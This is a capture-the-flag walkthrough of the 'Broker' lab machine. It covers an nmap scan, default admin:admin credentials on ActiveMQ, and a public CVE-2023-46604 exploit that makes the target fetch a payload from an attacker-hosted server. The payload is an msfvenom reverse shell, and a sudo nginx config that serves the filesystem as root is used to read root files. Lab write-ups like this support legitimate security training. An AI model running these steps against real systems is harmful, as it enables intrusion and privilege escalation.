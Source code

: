 # **Broker** 

***
## **Difficulty = Easy**

![Broker](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/39c3a12f-d830-4f4e-9dcc-c80d05348148)

***


Running an nmap scan we have -:


```bash
# Nmap 7.94 scan initiated Thu Nov  9 23:49:15 2023 as: nmap -p22,80,1883,5672,8161,8888,42445,61613,61614,61616 -sCV -T4 -v --min-rate=1000 -oN nmap.txt 10.10.11.243
Nmap scan report for 10.10.11.243
Host is up (0.53s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/Consumer/Topic/#: 
|_    ActiveMQ/Advisory/MasterBroker: 
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
8888/tcp  open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST
| http-ls: Volume /
|   maxfiles limit reached (10)
| SIZE    TIME               FILENAME
| -       06-Nov-2023 01:10  bin/
| -       06-Nov-2023 01:10  bin/X11/
| 963     17-Feb-2020 14:11  bin/NF
| 129576  27-Oct-2023 11:38  bin/VGAuthService
| 51632   07-Feb-2022 16:03  bin/%5B
| 35344   19-Oct-2022 14:52  bin/aa-enabled
| 35344   19-Oct-2022 14:52  bin/aa-exec
| 31248   19-Oct-2022 14:52  bin/aa-features-abi
| 14478   04-May-2023 11:14  bin/add-apt-repository
| 14712   21-Feb-2022 01:49  bin/addpart
|_
|_http-title: Index of /
42445/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       Jetty 9.4.39.v20210325
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Site doesn't have a title.
| http-methods: 
|   Supported Methods: GET HEAD TRACE OPTIONS
|_  Potentially risky methods: TRACE
61616/tcp open  apachemq   ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     ProviderName 
|     ActiveMQ
|     StackTraceEnabled
|     PlatformDetails 
|     Java
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|     MaxInactivityDurationInitalDelay
|     ProviderVersion 
|_    5.15.15
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at
```



Navigating to port `80/HTTP` we have a login page


![](https://i.imgur.com/Lu2FcPA.png)


Using default credentials `admin:admin` gives us access


![](https://i.imgur.com/kcfolyK.png)


Enumerating the **ActiveMQ** manager i found this [exploit](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ), you can go ahead and clone the whole respository


```shell
$ git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ.git
```


Then build the exploit since it is written in **Go**


```bash
$ go build
```



Create a `msfvenom` binary (`.elf`) for the reverse  shell 

```bash
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST={Your_Listener_IP/Host} LPORT={Your_Listener_Port} -f elf -o test.elf
```


![](https://i.imgur.com/9HjX2hf.png)


Now host you payload on a **python server**


```bash
$ python3 -m http.server 8001
```

Open up the `poc-linux.xml` with your favorite text editor and replace the URL with your attacker IP address


![](https://i.imgur.com/uJMiT17.png)



Now start up your listener with `netcat` on port `4444` and run the exploit


```bash
$ ./ActiveMQ-RCE -i 10.10.11.243 -u http://10.10.16.7:8001/poc-linux.xml
```


Hell yeah 😎, and we got reverse shell as user **activemq**


![](https://i.imgur.com/CtCfcJX.png)


Running `sudo -l` we have the permissions to run `/usr/sbin/nginx` as **root**



![](https://i.imgur.com/tqY4VFY.png)



We can go ahead and navigate to our `/tmp` directory then save this config into a file called `whatever.conf`, This will host the / directory on the nginx server listening on port `1337`, Since we are running nginx with sudo we might be able to read the `/root` directory


```
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;
    }
}
```


Now run `nginx` pointing to the config file

```bash
$ sudo /usr/sbin/nginx -c /tmp/whatever.conf 
```

Making a `curl` request to `127.0.0.1` on port `1337` we can see that we now have the root directory served, we can go ahead and grab our **root** flag

```bash
$ curl 127.0.0.1:1337/root/root.txt
```


![](https://i.imgur.com/e1IUIA9.png)


Bankai, Have fun 🤾‍♂️


